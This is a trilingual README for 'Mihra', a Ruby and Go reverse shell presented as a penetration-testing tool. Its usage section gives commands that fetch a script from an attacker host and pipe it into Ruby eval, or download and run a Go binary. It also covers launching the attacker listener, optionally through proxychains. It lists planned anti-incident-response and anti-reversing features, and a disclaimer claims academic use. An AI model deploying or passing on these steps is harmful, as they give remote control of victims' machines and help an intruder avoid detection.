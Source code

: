 # Mihra
🇧🇷 - Uma reverse shell construída em ruby para o testes de penetração. Agora para ambientes onde pode ser utilizado a linguagem interpretada e compilada 
Utiliza um sistema onde a porta de conexão é fornecida pelo alvo, e não pelo atacante, possibilitando o uso de proxy's e conexões em intervalos, devido ao loop de execução.


🇬🇧 -A reverse shell built in Ruby for penetration testing. Now for environments where the interpreted and compiled language can be used.
It uses a system where the connection port is provided by the target, not the attacker, allowing the use of proxies and connections at intervals, due to the execution loop.

🇨🇳 一个用Ruby编写的用于渗透测试的反向shell。现在适用于可以使用解释型和编译型语言的环境。
它使用一个系统，其中连接端口由目标提供，而不是攻击者提供，允许使用代理和在间隔内进行连接，这是由于执行循环的原因。

## Usage:
> RSA:
```
 # Generate the listener private key
openssl genrsa -out listener_private_key.pem 8192

  # Generate the listener public key
openssl rsa -in listener_private_key.pem -pubout -out listener_public_key.pem

  # Generate the server private key
openssl genrsa -out server_private_key.pem 8192

  # Generate the server public key
openssl rsa -in server_private_key.pem -pubout -out server_public_key.pem
```
> Target:
```
curl http://<attacker_ip>/target.rb | ruby -e 'eval(STDIN.read)'
#or just download it.

=========================
        GOLANG:
=========================
go build main.go

curl http://<attacker_ip>/target | chmod 777 target | /path/to/target --port <port>

=========================
```

> Attacker
```
ruby attacker.rb
#or
proxychains4 attacker.rb
=========================
        GOLANG:
=========================
go build -o server server.go
./server

#Listener 

go build -o listener listener.go
./listener
#  -server string
#        initial server:port address (default "127.0.0.1:8080")

```
### soon:
* Binary files.
* anti incident-response.
* anti reversing.
  
# Disclaimer
A perfect reverse shell for CTF's.

This repository and the tool contained within it are provided strictly for academic and research purposes. The use of this tool for any purpose that violates applicable laws or local, national, or international regulations is strictly prohibited. The contributors to this repository bear no responsibility for how this tool is used and the consequences arising from its use.

By using this tool, you agree to do so strictly for academic purposes and acknowledge that you are responsible for complying with all applicable laws and regulations during the use of this tool. This repository and its contributors do not endorse or promote any illegal or harmful activities.

Any misuse of this tool is not the responsibility of the contributors to this repository. If you do not agree with these terms or are unwilling to use it strictly for academic purposes, please do not proceed with the use of this tool.
